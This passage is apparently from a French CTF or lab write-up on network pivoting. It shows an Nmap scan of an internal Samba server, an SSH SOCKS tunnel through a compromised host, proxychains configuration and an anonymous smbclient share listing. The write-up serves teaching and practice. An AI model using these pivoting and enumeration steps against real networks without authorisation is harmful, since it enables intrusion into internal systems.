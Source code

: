 Et Nmap est préinstallé ! Charmante attention :)  

The kids are playing up downstairs
----------------------------------

Ce qui ressort du scan de ce nouveau réseau c'est surtout un serveur SMB :  

```plain
Nmap scan report for two.net200 (172.31.200.204)
Host is up (0.000063s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:42:AC:1F:C8:CC (Unknown)
Service Info: Host: F34A6019FB92

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: f34a6019fb92
|   NetBIOS computer name: F34A6019FB92\x00
|   Domain name: \x00
|_  FQDN: f34a6019fb92
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

C'est là où ça devient un poil plus tricky. Grace à notre accès SSH sur la seconde machine (forwardé sur le port 2424 local) on va créer un serveur proxy SOCKS via SSH qui permettra d'atteindre les machines de ce réseau (et surtout le serveur Samba).  

```plain
$ ssh -D 1080 -N -p 2424 root@127.0.0.1
```

Il faut après éditer le fichier de configuration de proxychains pour y mettre la ligne suivante :  

```plain
socks5 127.0.0.1 1080
```

[Proxychains](https://github.com/rofl0r/proxychains-ng) permet de chainer plusieurs proxies, il suffit de les mettre les un après les autres (dans l'ordre, ligne après ligne).  

Avec smbclient je peux établir une connexion invité et lister les partages :  

```plain
$ ./proxychains4 -f proxychains.conf smbclient -U "" -N -L //172.31.200.204
[proxychains] config file found: proxychains.conf
[proxychains] preloading ./libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.15-git-1-g7de7dd0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.31.200.204:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        users           Disk      Users Drive - Samba on Ubuntu
        companyInfo     Disk      Company Info - Samba on Ubuntu
        IPC$            IPC       IPC Service (f34a6019fb92 server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
